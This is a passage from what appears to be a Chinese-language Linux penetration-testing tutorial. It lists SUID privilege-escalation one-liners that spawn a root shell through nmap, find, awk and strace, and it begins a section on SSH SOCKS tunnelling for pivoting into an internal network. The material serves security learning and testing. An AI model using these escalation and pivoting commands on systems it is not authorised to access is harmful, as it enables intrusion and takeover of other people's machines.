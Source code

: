 ![image-20201209154404269](assets/1700701638-8a2b1e05382e7a0670934cc4e142460b.png)  
下面列举几个常见的设置了 SUID 的应用程序提权手段。

-   nmap
    
    1.  `nmap --interactive`
    2.  `!sh`
    
-   find
    
    ```python
    find . -type f -exec /bin/bash \;
    ```
    
-   awk
    
    ```sql
    awk 'BEGIN {system("/bin/bash")}'
    ```
    
-   strace
    
    ```coffeescript
    strace -o/dev/null /bin/bash
    ```
    

# 隧道

Linux 上可以利用自带和第三方工具进行隧道开启，利用隧道，我们可以建立 Socks 连接、端口转发等操作。

## SSH

Linux 上耳熟能详的就是 SSH 了，我们来看下 SSH 常用的开启隧道的命令。

-   场景 a：在控制 A 机器时，利用 socks 代理进入 A 机器所在内网
    
    1.  `ssh -qTfnN -D 1111 [root@1.1.1](mailto:root@1.1.1).1`
    